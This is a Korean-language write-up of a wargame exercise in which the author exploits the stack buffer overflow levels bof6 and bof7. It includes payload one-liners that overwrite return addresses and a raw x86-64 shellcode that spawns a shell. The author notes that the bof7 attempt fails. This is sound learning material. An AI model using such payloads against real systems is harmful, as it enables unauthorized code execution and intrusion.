


# bof6 풀이

`bof6`의 소스코드는 다음과 같다.


`bof6`의 공략법은 다음과 같다.
1. `buf` 와 `return address` 가 담긴 주소 사이의 거리를 알아낸다.
1.  `buffer overflow`로 `return address`를 변환시켜 `shellcode`를 가르키게 한다.
1. 실행된 `sh` 에서 `bof7.pw`을 알아낸다.

일단 첫번째로, return address 는 다음과 같다.


이는 vuln 함수에 들어갔을 때 rsi 있는 값이다. 이 값을 나중에 연산을 하기 위해서 저장해두자.



다음은 `buf`의 주소값을 찾는 방법이다. `buf`는 `gets`함수에서 불리우기 때문에 그때 참조하는 주소를 보면 될 것이다.


이 또한 저장하고 이 둘 사이의 거리를 다음 과 같이 구하자


이를 통해 `buf` 와 `return address` 사이에 `136 byte`만큼의 거리가 있다는 것을 확인할 수 있다.

이제는 그 사이를 채워주고 return address 의 값을 `shellcode`의 값으로 바꿔주면 된다.
**이때 shellcode의 값은 little endian 형식으로 넣어줘야 한다.**

```bash
$(python -c "print 'x' * 136 + '\x10\xe4\xff\xff\xff\x7f'"; cat) | ./bof6
```


 
# bof7 풀이 시도...(실패)

`bof7` 의 소스코드는 다음과 같다.

나는 `bof7`을 다음과 같이 공략했다.
1. `bof6`와 같이 `buf` 와 `return address` 사이의 거리를 알아낸다.
1. `return address`를 다시 `buf`로 가르킨다.
1. `buf`의 앞부분을 `shellcode`로 채운다.
1. `buffer overflow`로 `나머지 거리`를 쓰래기값으로 채운다.



거리를 구하는 방법과 거리 값은 위의 `bof6`와 매우 유사하지만 한가지 다른 점은 `bof7.c`에는 `setruid` 와 `setregid`가 `strcpy`가 일어나기 전에 행해진다. 이해가 안 가게도, gdb에서 `bof7`을 실행시킬때는 `error`를 발생시켜 `exit`하기 때문에 `strcpy`를 실행시키지 않고 함수가 종료된다. 그래서 `buffer overflow`가 발생하지 않는다. 근데 또 `gdb`말고 그냥 실행 시킬때에는 strcpy가 일어나는 것을 확인 할 수 있었다.

그래서 일단 ```flags +zero```로 강제로 분기를 바꿔서 실행하여 거리를 알아봤다.


buf의 주소는 다음과 같이 나왔고 그 결과는 `bof6`처럼 거리가 `136`으로 나왔다.

***

이제 `buf` 앞에 `shellcode`를 다음과 같이 넣어주고 `strlen(shellcode)`만큼 `136`에서 빼주자 친절하게도 우리가 `shellcode`가 있던 링크에 `shellcode`의 길이를 알아내는 함수도 같이 있었다


이걸 사용해서 `len`을 알아내면 다음과 같이 `27byte`인걸 알아낼 수 있다.


이제 이걸 사용하면 페이로드는 
```bash
`./bof7 `python -c "print '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05` + 'x' * 109 + '\xc0\xe3\xff\xff\xff\x7f'
```
하지만 결과가 다음과 같이 나오는 것을 확인할 수 있었다.


`illegal instruction`이라면서 실행을 시키지 않는다... 

주소값을 제대로 찾아가고 실행시키는것은 gdb로 확인했는데

`gdb`로 자세히 왜 이런가 보니 `shellcode`에서 이상한 값을 어떠한 레지스터에 넣어준다고 하는데 뭔가 로직이 잘못 된듯 하다. 


